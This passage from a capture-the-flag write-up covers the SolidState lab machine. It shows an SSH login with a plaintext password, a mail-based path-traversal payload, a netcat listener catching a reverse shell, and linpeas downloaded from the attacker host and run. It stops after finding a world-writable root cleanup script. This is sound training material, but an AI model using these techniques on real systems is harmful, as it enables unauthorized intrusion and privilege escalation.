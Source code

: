 Now, we just have to start a netcat listener and log in as an `mindy` to execute the payload.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# ssh mindy@10.10.10.51                      
mindy@10.10.10.51's password: P@55W0rd1!2@
...
-rbash: @team.pl>
Message-ID: <8608933.0.1652082124685.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.8 ([10.10.14.8])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 105
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Mon, 9 May 2022 03:41:24 -0400 (EDT)
Date: Mon, 9 May 2022 03:41:24 -0400 (EDT)
From: team@team.pl

: No such file or directory

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.51] 48670
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```

# Privilege Escalation

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget http://10.10.14.8/linpeas.sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ chmod +x linpeas.sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./linpeas.sh
...
╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Apr 26  2021 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
...
```

`Linpeas` showed an interesting `tmp.py` file in `/opt/`.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```
